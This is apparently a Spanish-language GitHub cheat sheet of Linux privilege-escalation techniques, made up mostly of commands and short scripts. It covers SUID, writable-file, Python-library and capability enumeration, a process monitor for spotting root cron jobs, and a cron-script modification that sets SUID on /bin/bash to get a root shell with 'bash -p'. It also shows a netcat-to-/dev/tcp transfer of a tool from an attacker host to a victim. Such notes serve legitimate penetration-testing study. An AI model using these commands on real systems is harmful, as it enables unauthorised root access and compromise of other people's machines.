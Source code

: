 -- -- 
Comando utilizado para aplicar un barrido en el sistema y detectar binarios con el privilegio SUID.
```bash
find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null
```

Comando utilizado para aplicar un barrido en el sistema y ver que archivos tienen capacidad de escritura.
```bash
find / -writable 2>/dev/null
```

Comando utiliado para aplicar un barrido a nivel de sistema con el fin de detectar archivos .py para intentar realizar un Python Library Hijacking.
```bash
find / -type f -name "*.py" 2>/dev/null
```

Comando utilizado para realizar una buscada en el sistema de capabilities asociadas a binarios.
```bash
getcap -r / 2>/dev/null
```

-- - 
## Deteccion y explotacion de tareas Cron

Script en bash para detectar que usuarios estan ejecutando comandos en el sistema:
```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

Si luego de ejecutar el anterior script descubrimos que el usuario root esta ejecutando un script mediante una tarea cron, podemos modificar el script y poner esto para escalar privilegios
```bash
#!/bin/bash 

sleep 2 
chmod u+s /bin/bash
```

Una vez hayamos modificado el script y se aplique el privilegio SUID, tenemos que abrir una bash "privilegiada"
```bash 
bash -p 
```

Tambien podriamos usar el script *pspy* para descubrir esto mismo. ---> https://github.com/DominicBreuker/pspy
Luego, para "adentrarlo" en la maquina victima lo podemos hacer de la siguiente manera (sin uso de curl, wget, etc)
```bash
# Atacante:
nc -nlvp 443 < pspy
md5sum pspy
# Victima 
cat < /dev/tcp/192.168.64.128/443 > pspy
md5sum pspy
# Si los 2 hashes son iguales es que el script fue transferido de forma exitosa.
```
-- - 
## Scripts que automatizan la enumeracion del sistema
- **lse.sh** (./lse.sh -l 1)---> https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
- **linepeas.sh** ---> https://github.com/peass-ng/PEASS-ng/releases/tag/20240818-ea81ae32
- **linux-exploit-suggester** ---> https://github.com/The-Z-Labs/linux-exploit-suggester.git (Esta mas enfocado al kernel)
-- - 
